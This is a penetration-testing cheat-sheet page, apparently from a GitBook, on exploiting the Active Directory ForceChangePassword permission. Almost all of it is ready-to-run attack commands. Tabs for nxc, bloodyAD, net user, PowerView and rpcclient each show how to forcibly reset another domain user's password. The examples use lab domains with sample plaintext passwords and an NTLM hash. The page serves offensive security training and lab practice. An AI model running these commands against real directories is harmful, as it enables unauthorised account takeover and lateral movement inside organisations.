 # ForceChangePassword

## Exploitation

<figure><img src="../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="nxc" %}
{% code overflow="wrap" %}
```bash
nxc smb <target> -u <user> -p <pass> -M change-password -o USER=blake NEWPASS=Password123! 
```
{% endcode %}
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# Plaintext credentials
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'

# NTLM hash
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password <target-user> <pass>
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <user> <pass> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create a PSCredential object for the current user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Set the password for the target user
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Import powerview
Import-Module .\PowerView.ps1

# Change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
{% code overflow="wrap" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>

net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
